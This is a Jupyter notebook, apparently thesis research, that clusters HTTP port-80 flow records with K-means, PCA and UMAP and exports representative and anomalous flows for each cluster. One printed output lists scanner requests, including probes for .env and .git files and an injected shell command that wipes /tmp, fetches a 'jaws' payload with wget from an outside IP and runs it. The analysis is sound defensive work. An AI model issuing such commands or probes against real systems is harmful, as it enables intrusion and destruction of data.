# Port 80 K-means Clustering

In [40]:
pip install polars pandas scikit-learn numpy matplotlib openai tqdm python-dotenv ollama jsonschema kneed umap-learn hdbscan


[notice] A new release of pip is available: 26.1.1 -> 26.1.2
[notice] To update, run: pip install --upgrade pip
Note: you may need to restart the kernel to use updated packages.


## Load & dataset

In [41]:
import polars as pl

df = pl.read_csv("results/sorted_enriched_port_80.csv")

df.describe()

statistic,id,expiration_id,src_ip,src_mac,src_oui,src_port,dst_ip,dst_mac,dst_oui,dst_port,protocol,ip_version,vlan_id,tunnel_id,bidirectional_first_seen_ms,bidirectional_last_seen_ms,bidirectional_duration_ms,bidirectional_packets,bidirectional_bytes,src2dst_first_seen_ms,src2dst_last_seen_ms,src2dst_duration_ms,src2dst_packets,src2dst_bytes,dst2src_first_seen_ms,dst2src_last_seen_ms,dst2src_duration_ms,dst2src_packets,dst2src_bytes,bidirectional_min_ps,bidirectional_mean_ps,bidirectional_stddev_ps,bidirectional_max_ps,src2dst_min_ps,src2dst_mean_ps,src2dst_stddev_ps,…,src2dst_urg_packets,src2dst_ack_packets,src2dst_psh_packets,src2dst_rst_packets,src2dst_fin_packets,dst2src_syn_packets,dst2src_cwr_packets,dst2src_ece_packets,dst2src_urg_packets,dst2src_ack_packets,dst2src_psh_packets,dst2src_rst_packets,dst2src_fin_packets,splt_direction,splt_ps,splt_piat_ms,application_name,application_category_name,application_is_guessed,application_confidence,requested_server_name,client_fingerprint,server_fingerprint,user_agent_x,content_type_x,uri,method,host,user_agent_y,status_code,status_msg,response_body_len,content_type_y,http_request_count,unique_uri_count,user_agent,content_type
str,f64,f64,str,str,str,f64,str,str,str,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,…,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,f64,str,str,str,str,str,f64,f64,str,str,str,str,str,str,str,str,str,str,str,str,str,f64,f64,str,str
"""count""",31117.0,31117.0,"""31117""","""31117""","""31117""",31117.0,"""31117""","""31117""","""31117""",31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,…,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,31117.0,"""31117""","""31117""","""31117""","""31117""","""31117""",31117.0,31117.0,"""11346""","""1370""","""0""","""9329""","""10928""","""14385""","""14385""","""14385""","""14385""","""14385""","""14385""","""14385""","""14385""",31003.0,31003.0,"""2""","""2"""
"""null_count""",0.0,0.0,"""0""","""0""","""0""",0.0,"""0""","""0""","""0""",0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,…,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,0.0,"""0""","""0""","""0""","""0""","""0""",0.0,0.0,"""19771""","""29747""","""31117""","""21788""","""20189""","""16732""","""16732""","""16732""","""16732""","""16732""","""16732""","""16732""","""16732""",114.0,114.0,"""31115""","""31115"""
"""mean""",3057.650223,0.000064,null,null,null,42515.613202,null,null,null,97.87306,6.0,4.0,0.0,0.0,1.7571e12,1.7571e12,7972.724074,9.761513,1243.325931,1.7571e12,1.7571e12,3406.68506,4.959829,502.378507,1.7341e12,1.7341e12,7505.296462,4.801684,740.947424,59.330237,93.974169,66.845755,265.611209,60.343381,77.733838,39.439142,…,0.0,3.386862,0.907671,0.61092,0.367291,1.739306,0.0,0.008645,0.0,4.769354,1.485008,0.033422,0.450397,null,null,null,null,null,0.552399,3.238005,null,null,null,null,null,null,null,null,null,null,null,null,null,0.579073,0.506016,null,null
"""std""",3391.48198,0.008017,null,null,null,13986.290554,null,null,null,851.967395,0.0,0.0,0.0,0.0,1.8321e9,1.8321e9,25020.322858,114.82777,19339.620244,1.8321e9,1.8321e9,22346.445956,58.064792,9853.450783,1.9989e11,1.9989e11,24546.553676,56.878851,9577.381297,5.93378,50.495587,89.948801,290.81467,9.48278,29.64573,64.273444,…,0.0,58.081534,29.574578,0.657861,0.532804,1.988116,0.0,0.145272,0.0,56.877798,29.993074,0.343958,0.609168,null,null,null,null,null,0.497255,2.486274,null,null,null,null,null,null,null,null,null,null,null,null,null,9.171454,2.902862,null,null
"""min""",0.0,0.0,"""1.15.173.165""","""bc:24:11:83:a7:6c""","""bc:24:11""",10.0,"""101.251.238.172""","""bc:24:11:83:a7:6c""","""bc:24:11""",80.0,6.0,4.0,0.0,0.0,1.7544e12,1.7544e12,0.0,1.0,54.0,1.7544e

In [42]:
import pandas as pd

if "application_confidence" in df.columns:
  df = df.with_columns(
    (pl.col("application_confidence") >= 4).cast(pl.Int8).alias("is_high_confidence")
  )
  df = df.drop("application_confidence")

if "tunnel_id" in df.columns:
  df = df.with_columns(
    pl.col("tunnel_id").cast(pl.Utf8)
  ).to_dummies(columns=["tunnel_id"])

columns_to_drop = [
  # Remove numeric identifiers
  'id', 'expiration_id',

  # Remove string identifiers
  'src_ip', 'dst_ip', 'src_mac', 'dst_mac', 'src_oui', 'dst_oui', 'src_port', 'dst_port',
  
  # Remove strings
  'application_name', 'application_category_name', 'client_fingerprint', 'server_fingerprint', 'requested_server_name', 
  'user_agent', 'content_type',

  # Remove features that may leak timestamp
  'bidirectional_first_seen_ms', 'bidirectional_last_seen_ms', 'src2dst_first_seen_ms', 'src2dst_last_seen_ms',
  'dst2src_first_seen_ms', 'dst2src_last_seen_ms','splt_direction', 'splt_ps', 'splt_piat_ms',

  # Remove added Zeek Feautures used to conduct DPI on the clusters after clustering is performed
  'user_agent_x','content_type_x','uri','method','host','user_agent_y','status_code',
  'status_msg','response_body_len','content_type_y','http_request_count','unique_uri_count'
]

df = df.drop([col for col in columns_to_drop if col in df.columns])

nunique_df = df.select(pl.all().n_unique())
constant_cols = [
  col for col, val in zip(nunique_df.columns, nunique_df.row(0))
  if val <= 1
]
df = df.drop(constant_cols)

print(f"Dropped {len(columns_to_drop)} string/list columns and {len(constant_cols)} constant columns")
df.head()

Dropped 38 string/list columns and 8 constant columns


bidirectional_duration_ms,bidirectional_packets,bidirectional_bytes,src2dst_duration_ms,src2dst_packets,src2dst_bytes,dst2src_duration_ms,dst2src_packets,dst2src_bytes,bidirectional_min_ps,bidirectional_mean_ps,bidirectional_stddev_ps,bidirectional_max_ps,src2dst_min_ps,src2dst_mean_ps,src2dst_stddev_ps,src2dst_max_ps,dst2src_min_ps,dst2src_mean_ps,dst2src_stddev_ps,dst2src_max_ps,bidirectional_min_piat_ms,bidirectional_mean_piat_ms,bidirectional_stddev_piat_ms,bidirectional_max_piat_ms,src2dst_min_piat_ms,src2dst_mean_piat_ms,src2dst_stddev_piat_ms,src2dst_max_piat_ms,dst2src_min_piat_ms,dst2src_mean_piat_ms,dst2src_stddev_piat_ms,dst2src_max_piat_ms,bidirectional_syn_packets,bidirectional_cwr_packets,bidirectional_ece_packets,bidirectional_ack_packets,bidirectional_psh_packets,bidirectional_rst_packets,bidirectional_fin_packets,src2dst_syn_packets,src2dst_cwr_packets,src2dst_ece_packets,src2dst_ack_packets,src2dst_psh_packets,src2dst_rst_packets,src2dst_fin_packets,dst2src_syn_packets,dst2src_ece_packets,dst2src_ack_packets,dst2src_psh_packets,dst2src_rst_packets,dst2src_fin_packets,application_is_guessed,is_high_confidence
i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,f64,f64,i64,i64,f64,f64,i64,i64,f64,f64,i64,i64,f64,f64,i64,i64,f64,f64,i64,i64,f64,f64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i64,i8
119,3,170,119,2,112,0,1,58,54,56.666667,2.309401,58,54,56.0,2.828427,58,58,58.0,0.0,58,0,59.5,84.145707,119,119,119.0,0.0,119,0,0.0,0.0,0,2,0,0,1,0,1,0,1,0,0,0,0,1,0,1,0,1,0,0,0,1,0
37,3,206,37,2,148,0,1,58,54,68.666667,22.030282,94,54,74.0,28.284271,94,58,58.0,0.0,58,0,18.5,26.162951,37,37,37.0,0.0,37,0,0.0,0.0,0,2,0,0,1,0,1,0,1,0,0,0,0,1,0,1,0,1,0,0,0,0,1
3801,13,1330,3801,7,713,3801,6,617,66,102.307692,76.738066,309,66,101.857143,91.390059,309,66,102.833333,64.107462,227,0,316.75,995.035141,3472,0,633.5,1391.931284,3472,0,760.2,1628.140258,3671,2,0,0,12,3,0,2,1,0,0,6,1,0,1,1,0,6,2,0,1,0,1
295,13,1277,295,6,618,295,7,659,54,98.230769,69.781987,273,66,103.0,83.364261,273,54,94.142857,62.493809,227,0,24.583333,49.271896,134,0,59.0,64.845971,135,0,49.166667,62.374407,134,2,0,0,10,4,2,1,1,0,0,5,2,0,0,1,0,5,2,2,1,0,1
158,3,166,158,2,108,0,1,58,54,55.333333,2.309401,58,54,54.0,0.0,54,58,58.0,0.0,58,0,79.0,111.722871,158,158,158.0,0.0,158,0,0.0,0.0,0,2,0,0,1,0,1,0,1,0,0,0,0,1,0,1,0,1,0,0,0,1,0


In [43]:
# Nulls
assert df.null_count().to_numpy().sum() == 0, "Null values detected"

# NaNs
assert df.select(pl.all().is_nan().sum()).to_numpy().sum() == 0, "NaNs detected"

# Infinite
assert df.select(pl.all().is_infinite().sum()).to_numpy().sum() == 0, "Infinite values detected"

print("No Null/NaNs/Infinite values found")

No Null/NaNs/Infinite values found


In [44]:
from sklearn.preprocessing import StandardScaler
from sklearn.preprocessing import RobustScaler
from sklearn.decomposition import PCA
import numpy as np

# Numpy for df
X = df.to_numpy()

# # Scaler: was not scaling that well
# scaler = StandardScaler()
# X_scaled = scaler.fit_transform(X)

scaler = RobustScaler()
X_scaled = scaler.fit_transform(X)

X_scaled = np.clip(X_scaled, -5, 5)

# PCA
pca = PCA()
X_pca = pca.fit_transform(X_scaled)

print(f"PCA Dimensions: {X_pca.shape[1]}")

PCA Dimensions: 55


Text(0.5, 1.0, 'Scree Plot')



In [45]:
import matplotlib.pyplot as plt
plt.style.use("ggplot") 
plt.plot(pca.explained_variance_, marker='o')
plt.xlabel("Eigenvalue number")
plt.ylabel("Eigenvalue size")
plt.title("Scree Plot")

In [46]:
cumvar = np.cumsum(pca.explained_variance_ratio_)
n_components = np.argmax(cumvar >= 0.99) + 1
print(f"Components for 99% variance: {n_components}")

Components for 99% variance: 18


In [47]:
from sklearn.cluster import KMeans
from sklearn.metrics import davies_bouldin_score, silhouette_score

pca = PCA(n_components=n_components)
X_pca = pca.fit_transform(X_scaled)

K_RANGE = range(2, 16)
inertias, sil_scores, db_scores = [], [], []

# Sample for silhouette speed
rng = np.random.default_rng(42)
sample_idx = rng.choice(len(X_pca), min(5000, len(X_pca)), replace=False)
X_sample = X_pca[sample_idx]

print('Test k from 2 to 16')
for k in K_RANGE:
  km = KMeans(n_clusters=k, init='k-means++', n_init=10, random_state=42)
  labels_k = km.fit_predict(X_pca)
  inertias.append(km.inertia_)
  sil_scores.append(silhouette_score(X_sample, labels_k[sample_idx]))
  db_scores.append(davies_bouldin_score(X_sample, labels_k[sample_idx]))
  print(f'k={k:2d}  inertia={km.inertia_:,.0f} sil={sil_scores[-1]:.4f}  db={db_scores[-1]:.4f}')

Test k from 2 to 16
k= 2  inertia=1,150,364 sil=0.5807  db=0.9702
k= 3  inertia=689,344 sil=0.6396  db=0.6511
k= 4  inertia=482,480 sil=0.5354  db=0.7500
k= 5  inertia=410,894 sil=0.5576  db=0.8354
k= 6  inertia=371,900 sil=0.5468  db=1.0542
k= 7  inertia=340,209 sil=0.5565  db=0.9997
k= 8  inertia=306,818 sil=0.5310  db=0.9853
k= 9  inertia=283,574 sil=0.5116  db=0.9439
k=10  inertia=257,782 sil=0.5489  db=0.9268
k=11  inertia=232,696 sil=0.5660  db=0.9189
k=12  inertia=210,671 sil=0.5617  db=0.8835
k=13  inertia=200,842 sil=0.5663  db=0.9071
k=14  inertia=181,612 sil=0.5637  db=0.8783
k=15  inertia=171,909 sil=0.5466  db=0.9450




Elbow method suggests k=4
Best silhouette suggests k=3


In [48]:
import matplotlib.pyplot as plt
from kneed import KneeLocator
import os

kneedle = KneeLocator(list(K_RANGE), inertias, curve='convex', direction='decreasing')
k_elbow = kneedle.knee or int(np.argmax(sil_scores)) + 2
k_silloute = int(np.argmax(sil_scores)) + 2

fig, axes = plt.subplots(1, 3, figsize=(15, 4))

axes[0].plot(list(K_RANGE), inertias, marker='o')
axes[0].axvline(k_elbow, color='red', linestyle='--', label=f'elbow k={k_elbow}')
axes[0].set_title('Elbow')
axes[0].set_xlabel('k'); axes[0].set_ylabel('Inertia')
axes[0].legend()

axes[1].plot(list(K_RANGE), sil_scores, marker='o', color='green')
axes[1].axvline(k_silloute, color='red', linestyle='--', label=f'best silloute k={k_silloute}')
axes[1].set_title('Silhouette Score (higher = better)')
axes[1].set_xlabel('k')
axes[1].legend()

axes[2].plot(list(K_RANGE), db_scores, marker='o', color='orange')
axes[2].set_title('Davies-Bouldin Score (lower = better)')
axes[2].set_xlabel('k')

os.makedirs('figures/80_kmeans', exist_ok=True)

plt.tight_layout()
plt.savefig('figures/80_kmeans/kmeans_elbow_sil.png', dpi=150)
plt.show()

print(f'Elbow method suggests k={k_elbow}')
print(f'Best silhouette suggests k={k_silloute}')

### Final K-means fit
Set K_FINAL based on the plots above. Default is the elbow value.

In [26]:
K_FINAL = 4

print(f'K-means with k={K_FINAL}')
km_final = KMeans(n_clusters=K_FINAL, init='k-means++', n_init=20, random_state=42)
km_final.fit(X_pca)
labels = km_final.labels_

print(f'Inertia: {km_final.inertia_:,.0f}')
print(f'Silhouette: {silhouette_score(X_sample, labels[sample_idx]):.4f}')
print(f'Davies-Bouldin: {davies_bouldin_score(X_sample, labels[sample_idx]):.4f}')

unique, counts = np.unique(labels, return_counts=True)
for cl, ct in zip(unique, counts):
  print(f'Cluster {cl}: {ct:,} flows ({ct/len(labels)*100:.1f}%)')

K-means with k=4
Inertia: 482,480
Silhouette: 0.5354
Davies-Bouldin: 0.7500
Cluster 0: 10,457 flows (33.6%)
Cluster 1: 4,062 flows (13.1%)
Cluster 2: 3,633 flows (11.7%)
Cluster 3: 12,965 flows (41.7%)


### Overiview of how each feature impacts each cluster



In [27]:
feature_names = df.columns

# Convert K-means centers from PCA space -> scaled feature space -> original feature space
centers_original = scaler.inverse_transform(pca.inverse_transform(km_final.cluster_centers_))

centroids_df = pd.DataFrame(centers_original, columns=feature_names)

# Normalise to [0,1] per feature for visual clarity
norm = (centroids_df - centroids_df.min()) / (centroids_df.max() - centroids_df.min() + 1e-9)

fig_w = max(22, len(feature_names) * 0.28)
fig_h = max(4, K_FINAL * 0.55 + 2)

fig, ax = plt.subplots(figsize=(fig_w, fig_h))
im = ax.imshow(norm.values, aspect='auto', cmap='RdBu_r', vmin=0, vmax=1)

ax.set_xticks(range(len(feature_names)))
ax.set_xticklabels(feature_names, rotation=90, fontsize=7)
ax.set_yticks(range(K_FINAL))
ax.set_yticklabels([f'Cluster {i}' for i in range(K_FINAL)])
ax.set_title(f'Cluster profiles — port 80 (K-means, k={K_FINAL})')

plt.colorbar(im, ax=ax)
plt.tight_layout()
plt.savefig('figures/80_kmeans/kmeans_heatmap.png', dpi=150)
plt.show()

### UMAP projection with k = 4

/Users/jesusbeneytogomez-polo/Desktop/thesis/.venv/lib/python3.13/site-packages/umap/umap_.py:1952: UserWarning: n_jobs value 1 overridden to 1 by setting random_state. Use no seed for parallelism.
  warn(




Saved figures/80_kmeans/kmeans_umap.png


In [37]:
import umap

reducer = umap.UMAP(n_components=2, n_neighbors=30, min_dist=0.1, random_state=42)
projection = reducer.fit_transform(X_pca)

cmap_30 = plt.get_cmap('viridis').resampled(4)

plt.figure(figsize=(10, 7))
scatter = plt.scatter(projection[:, 0],projection[:, 1],c=labels,cmap='tab20',s=15,alpha=0.8
)
plt.colorbar(scatter, label='K-means cluster')
plt.title(f"Same UMAP projection colored by K-means cluster (k={K_FINAL})")
plt.savefig('figures/80_kmeans/kmeans_umap.png', dpi=150)
plt.show()
print('Saved figures/80_kmeans/kmeans_umap.png')

#### Overview (Check clusters/clusters_80_kmeans better)

In [30]:
import ast
df_full = pd.read_csv("results/sorted_enriched_port_80.csv", low_memory=False)
df_full["cluster"] = labels
uri_flows = df_full[df_full["uri"].notna()]

http_clusters = uri_flows["cluster"].value_counts().index.tolist()

for c in sorted(http_clusters):
  subset = df_full[df_full["cluster"] == c]
  all_uris, all_codes = [], []
  for v in subset["uri"].dropna():
    try: all_uris.extend(ast.literal_eval(v))
    except: pass
  for v in subset["status_code"].dropna():
    try: all_codes.extend(ast.literal_eval(v))
    except: pass

  stats = subset[['bidirectional_packets','bidirectional_bytes','bidirectional_duration_ms','bidirectional_syn_packets',
    'bidirectional_rst_packets','bidirectional_fin_packets']].mean().round(2)

  print(f"\nCluster {c} ({len(subset)} flows)")
  print(f"URIs: {pd.Series(all_uris).value_counts().to_dict()}")
  print(f"Codes: {pd.Series(all_codes).value_counts().head(3).to_dict()}")
  print(f"pkts={stats['bidirectional_packets']} "
    f"bytes={stats['bidirectional_bytes']} "
    f"dur={stats['bidirectional_duration_ms']}ms "
    f"syn={stats['bidirectional_syn_packets']} "
    f"rst={stats['bidirectional_rst_packets']} "
    f"fin={stats['bidirectional_fin_packets']}")


Cluster 0 (10457 flows)
URIs: {'/': 2156, '/favicon.ico': 402, '*': 314, '/.env': 263, '/.git/config': 148, '/cgi-bin/luci/;stok=/locale': 121, '/Login.html': 104, '/image/favicon.ico': 80, '/boaform/admin/formLogin': 63, '/dispatch.asp': 56, '/geoserver/web/': 50, '/?XDEBUG_SESSION_START=phpstorm': 45, '/actuator/gateway/routes': 44, '/api/.env': 39, 'www.google.com:443': 39, '/robots.txt': 35, '/backend/.env': 29, '/ RTSP/1.': 28, '/systembc/password.php': 28, '/admin/.env': 28, '/form.html': 27, '/upl.php': 27, '/t4': 27, '/geoip/': 27, '/1.php': 27, '/password.php': 27, '/.well-known/security.txt': 27, '/.git/HEAD': 26, 'map.naver.com:443': 25, '/nice ports,/Trinity.txt.bak': 23, '/sitemap.xml': 23, '/aaa9': 23, '/aab9': 23, '/.env.bak': 22, '/.env.example': 22, '/sdk': 21, '/HNAP1': 21, '/.git/index': 21, '/shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws': 20, '/app_dev.php/_profiler/phpinfo': 20, '/_profiler/phpinfo': 18, '/wiki': 18, '/?phpinfo=-1': 18, '/evox/ab

In [34]:
from sklearn.metrics.pairwise import euclidean_distances
import numpy as np
import os
import pandas as pd

df_full = pd.read_csv("results/sorted_enriched_port_80.csv", low_memory=False)

df_full["cluster"] = labels

os.makedirs("clusters/clusters_80_kmeans", exist_ok=True)

cluster_sizes = df_full["cluster"].value_counts().to_dict()

centroids_scaled = km_final.cluster_centers_

for cluster_id in sorted(df_full["cluster"].unique()):
  subset_idx = df_full.index[df_full["cluster"] == cluster_id].to_numpy()
  subset_scaled = X_pca[subset_idx]
  dists = euclidean_distances( subset_scaled, centroids_scaled[cluster_id].reshape(1, -1)).flatten()
  
  # Store distance to centroid so we can sort like in the HDBSCAN version
  df_full.loc[subset_idx, "distance_to_centroid"] = dists
  # Most representative: closest to centroid
  representative_idx = (df_full.loc[subset_idx].sort_values("distance_to_centroid", ascending=True).head(100).index)
  # Most anomalous: furthest from centroid
  anomalous_idx = (df_full.loc[subset_idx].sort_values("distance_to_centroid", ascending=False).head(100).index)

  df_full.loc[representative_idx].to_csv(f"clusters/clusters_80_kmeans/{cluster_id:02d}_representative.csv",index=False)
  df_full.loc[anomalous_idx].to_csv(f"clusters/clusters_80_kmeans/{cluster_id:02d}_anomalous.csv",index=False)
  print(f"Saved cluster {cluster_id} ({cluster_sizes[cluster_id]} flows)")

Saved cluster 0 (10457 flows)
Saved cluster 1 (4062 flows)
Saved cluster 2 (3633 flows)
Saved cluster 3 (12965 flows)
